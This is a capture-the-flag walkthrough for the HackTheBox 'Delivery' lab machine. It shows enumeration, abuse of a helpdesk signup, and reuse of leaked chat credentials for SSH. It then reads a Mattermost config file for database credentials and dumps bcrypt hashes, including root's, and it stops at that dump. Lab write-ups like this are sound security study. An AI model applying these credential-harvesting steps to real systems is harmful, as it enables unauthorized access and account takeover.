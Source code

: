 # CTF - [Delivery](https://app.hackthebox.eu/machines/Delivery)

## Enumeration:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp open  http    nginx 1.14.2
| http-methods: 80
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Checked out the site on port 80, there's a portal for admins in `delivery.htb:8065`, we can create an account through `helpdesk.delivery.htb`. 
<br/><br/>
![Screenshot_2021-10-19_22_23_53](https://user-images.githubusercontent.com/59718043/138017634-5b0583c4-b126-4bb6-997c-9b0e601a9dfa.png)
<br/><br/>
Edited `/etc/hosts` and included delivery.htb and helpdesk.delivery.htb.
<br/><br/>
![Screenshot_2021-10-19_22_26_18](https://user-images.githubusercontent.com/59718043/138018087-0432a42a-fae6-41c6-a1ff-b8882a260eb7.png)
<br/><br/>
Opened a ticket through this portal, used the `Check Ticket Status` functionality to login to view ticket status.
<br/><br/>
Then I went to delivery.htb:8065 to create a new account, checked back on the ticket status page and saw a verification link. This link took me to a login page.
Used the credentials to log in, this brought me to the MatterMost server.
<br/><br/>
![Screenshot_2021-10-19_23_27_16](https://user-images.githubusercontent.com/59718043/138023512-752dcf27-0df6-4f76-a1f0-29c70fb62b6a.png)
<br/><br/>
The Internal public channel contains some credentials: 
<br/><br/>
![here](https://user-images.githubusercontent.com/59718043/138201913-a1306ab6-aade-40ef-ae35-8c17040d6dde.png)
```
maildeliverer:Youve_G0t_Mail!
```
Ran a gobuster scan on the ticketing system page to find the server-side portal:
<br/><br/>
![Screenshot_2021-10-21_00-24-21](https://user-images.githubusercontent.com/59718043/138211383-2828e6a1-1475-47ac-9fca-72417dd9bd01.png)
<br/><br/>
Found the ticketing system server-side portal on `http://helpdesk.delivery.htb/scp/login.php`. Used `maildeliverer:Youve_G0t_Mail!` to log in.
<br/><br/>
![Screenshot_2021-10-21_00_30_23](https://user-images.githubusercontent.com/59718043/138211896-120c7a88-2a3c-4ff1-95ca-191579ccf69e.png)
<br/><br/>
Also found out that the same credentials can be used to SSH into the server.
```
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ ls
user.txt
```
Mattermost stores its configuration files in `/opt/mattermost/config/config.json`. This file contains SQL database credentials.
```
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readT$
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    }
```
`mmuser:Crack_The_MM_Admin_PW` --- used these credentials to log in to mysql.
```
mysql -u mmuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 38
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```
Found the mattermost database; found the root credentials under the Users table.
```
MariaDB [mattermost]> select id, Username, Password from Users;
+----------------------------+----------------------------------+--------------------------------------------------------------+
| id                         | Username                         | Password                                                     |
+----------------------------+----------------------------------+--------------------------------------------------------------+
| 64nq8nue7pyhpgwm99a949mwya | surveybot                        |                                                              |
| 6akd5cxuhfgrbny81nj55au4za | c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 6wkx1ggn63r7f8q1hpzp7t4iiy | 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| dijg7mcf4tf3xrgxi5ntqdefma | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| hatotzdacb8mbe95hm4ei8i7ny | ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| jing8rk6mjdbudcidw6wz94rdy | channelexport                    |                                                              |
| n9magehhzincig4mm97xyft9sc | 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------+----------------------------------+--------------------------------------------------------------+
```
```
dijg7mcf4tf3xrgxi5ntqdefma | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```
